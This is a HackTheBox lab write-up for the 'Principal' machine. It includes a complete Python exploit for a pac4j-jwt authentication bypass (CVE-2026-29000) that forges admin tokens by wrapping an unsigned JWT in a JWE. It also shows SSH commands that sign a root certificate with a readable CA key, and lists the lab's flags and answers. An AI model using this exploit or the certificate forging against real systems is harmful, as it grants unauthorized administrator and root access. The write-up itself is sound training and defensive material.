

# HackTheBox — Principal


---

## 📋 Machine Info

| | |
|---|---|
| **Platform** | HackTheBox |
| **Name** | Principal |
| **OS** | Ubuntu 24.04 LTS |
| **Difficulty** | Medium |
| **IP** | 10.129.4.15 |
| **Key Topics** | JWT Auth Bypass, CVE-2026-29000, SSH Certificate Abuse |

---

## 🔍 Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -p- --min-rate 5000 10.129.4.15
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
8080/tcp open  http-proxy Jetty
```

**Observations:**
- **2 open TCP ports** — SSH (22) and HTTP (8080)
- Web server is **Jetty** with header `X-Powered-By: pac4j-jwt/6.0.3`
- Port 8080 redirects to `/login` — a page titled **"Principal Internal Platform"**

---

## 🌐 Web Application Analysis

### Login Page

Browsing to `http://10.129.4.15:8080` redirects to a login page for "Principal Internal Platform v1.2.0". The HTML source reveals:

```html
<script src="/static/js/app.js"></script>
```

### Analyzing app.js

```bash
curl http://10.129.4.15:8080/static/js/app.js
```

The JavaScript file contains **detailed comments** about the authentication flow:

```javascript
/**
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 *
 * JWT claims schema:
 *   sub   - username
 *   role  - one of: ROLE_ADMIN, ROLE_MANAGER, ROLE_USER
 *   iss   - "principal-platform"
 *   iat   - issued at (epoch)
 *   exp   - expiration (epoch)
 */
```

**Key findings from `app.js`:**

| Info | Value |
|------|-------|
| JWE Algorithm | `RSA-OAEP-256` |
| JWE Encryption | `A128GCM` |
| Inner JWT Signing | `RS256` |
| JWT Issuer | `principal-platform` |
| Roles | `ROLE_ADMIN`, `ROLE_MANAGER`, `ROLE_USER` |
| Auth method | `Authorization: Bearer <token>` |
| JWKS endpoint | `/api/auth/jwks` |
| Login endpoint | `POST /api/auth/login` |
| API endpoints | `/api/dashboard`, `/api/users`, `/api/settings` |

### JWKS Public Key

```bash
curl http://10.129.4.15:8080/api/auth/jwks
```

```json
{
  "keys": [{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "enc-key-1",
    "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsd..."
  }]
}
```

The RSA public key used for JWE encryption is **publicly accessible** — this is by design, but combined with the vulnerability below, it becomes critical.

---

## 🔓 Exploitation — CVE-2026-29000

### About the Vulnerability

**CVE-2026-29000** is a **critical authentication bypass** (CVSS 10.0) in `pac4j-jwt`:

- When `JwtAuthenticator` receives a JWE token containing a **PlainJWT** (`alg: none`, unsigned) inside, it **skips signature verification entirely**
- An attacker only needs the RSA **public key** (from JWKS) to encrypt the outer JWE
- This allows forging tokens with arbitrary claims → impersonate any user, including administrators

### Exploit

Install dependencies:

```bash
pip install jwcrypto requests
```

Exploit script:

```python
#!/usr/bin/env python3
"""CVE-2026-29000 - pac4j-jwt Authentication Bypass"""

import json, base64, time, requests
from jwcrypto import jwk, jwe

TARGET = "http://10.129.4.15:8080"

JWKS_DATA = {
    "keys": [{
        "kty": "RSA",
        "e": "AQAB",
        "kid": "enc-key-1",
        "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYs"
             "FUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP"
             "9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBp"
             "WJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0"
             "Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5"
             "C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
    }]
}

def b64url_encode(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('ascii')

def forge_token(username: str, role: str = "ROLE_ADMIN") -> str:
    pub_key = jwk.JWK(**JWKS_DATA["keys"][0])
    now = int(time.time())

    # 1. Create PlainJWT (unsigned, alg=none) — core of CVE-2026-29000
    header = {"alg": "none", "typ": "JWT"}
    claims = {
        "sub": username,
        "role": role,
        "iss": "principal-platform",
        "iat": now,
        "exp": now + 86400,
    }
    h = b64url_encode(json.dumps(header, separators=(',', ':')).encode())
    p = b64url_encode(json.dumps(claims, separators=(',', ':')).encode())
    plain_jwt = f"{h}.{p}."

    # 2. Wrap PlainJWT inside JWE using server's RSA public key
    protected_header = {
        "alg": "RSA-OAEP-256",
        "enc": "A128GCM",
        "kid": "enc-key-1",
        "typ": "JWT",
        "cty": "JWT"
    }
    token = jwe.JWE(plain_jwt.encode('utf-8'), json.dumps(protected_header))
    token.add_recipient(pub_key)
    return token.serialize(compact=True)

# Forge admin token and access API
token = forge_token("admin")
headers = {"Authorization": f"Bearer {token}", "Content-Type": "application/json"}

for endpoint in ["/api/dashboard", "/api/users", "/api/settings"]:
    r = requests.get(f"{TARGET}{endpoint}", headers=headers)
    print(f"\n[{'✅' if r.status_code == 200 else '❌'}] {endpoint} -> {r.status_code}")
    if r.status_code == 200:
        print(json.dumps(r.json(), indent=2))
```

### Results

Forged token accepted ✅ — full admin access to all API endpoints.

**`/api/users`** — List of users:

| Username | Display Name | Role | Department |
|----------|-------------|------|------------|
| `admin` | Sarah Chen | ROLE_ADMIN | IT Security |
| `svc-deploy` | Deploy Service | deployer | DevOps |
| `jthompson` | James Thompson | ROLE_USER | Engineering |
| `amorales` | Ana Morales | ROLE_USER | Engineering |

> `svc-deploy` — Service account for automated deployments via SSH certificate auth.

**`/api/settings`** — Leaked plaintext password:

```json
{
  "security": {
    "encryptionKey": "D3pl0y_$$H_Now42!",
    "authFramework": "pac4j-jwt",
    "authFrameworkVersion": "6.0.3"
  },
  "infrastructure": {
    "sshCertAuth": "enabled",
    "sshCaPath": "/opt/principal/ssh/"
  }
}
```

> ⚠️ **`encryptionKey: "D3pl0y_$$H_Now42!"`** — plaintext password exposed in API response!

---

## 🏁 User Flag

The leaked password works as SSH credentials for `svc-deploy`:

```bash
ssh svc-deploy@10.129.4.15
# Password: D3pl0y_$$H_Now42!
```

```bash
svc-deploy@principal:~$ cat user.txt
d2d237f4bd7591297dbd230c871f7f08
```

---

## ⬆️ Privilege Escalation

### Enumeration

`svc-deploy` belongs to the **`deployers`** group, which has read access to `/opt/principal/ssh`:

```bash
svc-deploy@principal:~$ ls -la /opt/principal/ssh/
total 20
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 .
drwxr-xr-x 5 root root      4096 Mar 11 04:22 ..
-rw-r----- 1 root deployers  288 Mar  5 21:05 README.txt
-rw-r----- 1 root deployers 3381 Mar  5 21:05 ca           ← SSH CA Private Key!
-rw-r--r-- 1 root root       742 Mar  5 21:05 ca.pub
```

The `README.txt` confirms:

```
CA keypair for SSH certificate automation.
This CA is trusted by sshd for certificate-based authentication.

Key details:
  Algorithm: RSA 4096-bit
  Created: 2025-11-15
  Purpose: Automated deployment authentication
```

The custom sshd configuration at `/etc/ssh/sshd_config.d/60-principal.conf` confirms the CA is trusted:

```
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

### SSH Certificate Signing Attack

Since we can read the **CA private key**, we can sign an SSH certificate for any user — including `root`:

```bash
# 1. Generate a temporary SSH key pair
ssh-keygen -t rsa -b 2048 -f /tmp/rootkey -N ""

# 2. Sign the public key with the CA, specifying root as the principal
ssh-keygen -s /opt/principal/ssh/ca -I root-cert -n root -V +1h /tmp/rootkey.pub
# Signed user key /tmp/rootkey-cert.pub: id "root-cert" serial 0 for root

# 3. SSH to localhost as root using the signed certificate
ssh -i /tmp/rootkey root@localhost
```

```bash
root@principal:~# cat /root/root.txt
691b0cec8927ad1de2433b29a83cccad
```

---

## 🗺️ Attack Chain



---

## ❓ Lab Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | How many open TCP ports are listening on Principal? | `2` |
| 2 | Which endpoint serves the main JavaScript file? | `/static/js/app.js` |
| 3 | What API endpoint holds a public key? | `/api/auth/jwks` |
| 4 | What is the plaintext password found in the web app? | `D3pl0y_$$H_Now42!` |
| 5 | What interesting group is svc-deploy part of? | `deployers` |
| 6 | What directory does the deployers group have read access to? | `/opt/principal/ssh` |
| 7 | Which file contains a custom sshd configuration? | `/etc/ssh/sshd_config.d/60-principal.conf` |
| 8 | User Flag | `d2d237f4bd7591297dbd230c871f7f08` |
| 9 | Root Flag | `691b0cec8927ad1de2433b29a83cccad` |

---

## 📝 Key Takeaways

1. **Patch your dependencies** — CVE-2026-29000 in `pac4j-jwt` allows complete authentication bypass with just a public key. Upgrade to pac4j-jwt ≥ 6.3.3.

2. **Never expose secrets via API** — The `encryptionKey` was returned in the `/api/settings` endpoint, giving attackers a direct path to SSH access.

3. **Protect SSH CA private keys** — If an attacker obtains the CA signing key, they can forge certificates for any user including root. Use strict file permissions and HSMs where possible.

4. **Principle of Least Privilege** — The `svc-deploy` service account should not have direct read access to the CA private key. Certificate signing should be handled through a secured, audited API.

---

*Written by [phat](https://github.com/yourusername) • HackTheBox*
